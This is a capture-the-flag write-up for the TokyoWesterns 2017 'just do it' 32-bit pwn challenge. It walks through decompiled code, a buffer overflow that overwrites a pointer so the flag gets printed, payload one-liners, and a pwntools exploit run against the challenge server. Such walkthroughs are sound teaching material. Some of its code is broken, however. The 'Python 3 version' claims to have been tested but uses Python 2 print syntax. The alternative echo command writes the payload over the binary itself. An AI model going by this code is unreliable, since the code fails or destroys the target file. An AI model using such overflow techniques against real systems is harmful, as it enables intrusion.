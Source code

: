 # Just Do It!

This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

```
$    file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$    pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$    ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
file open error.
: No such file or directory
```

So it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

```
undefined4 main(void)

{
  char local_EAX_154;
  FILE *flagFile;
  int cmp;
  char vulnBuf [16];
  FILE *flagHandle;
  char *target;

  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  target = failed_message;
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _local_EAX_154 = fgets(flag,0x30,flagFile);
  if (_local_EAX_154 == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  _local_EAX_154 = fgets(vulnBuf,0x20,stdin);
  if (_local_EAX_154 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  cmp = strcmp(vulnBuf,PASSWORD);
  if (cmp == 0) {
    target = success_message;
  }
  puts(target);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

```
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

This code depends on python version and in some cases doesn't work. If it didn't work for you, try this one:
```
  echo -n -e '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\xa0\x04\x08' > ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

```
# Python 3 version (tested on 3.9.7)
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = b'\x00' * 20 + b'\x80\xa0\x04\x08'

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!
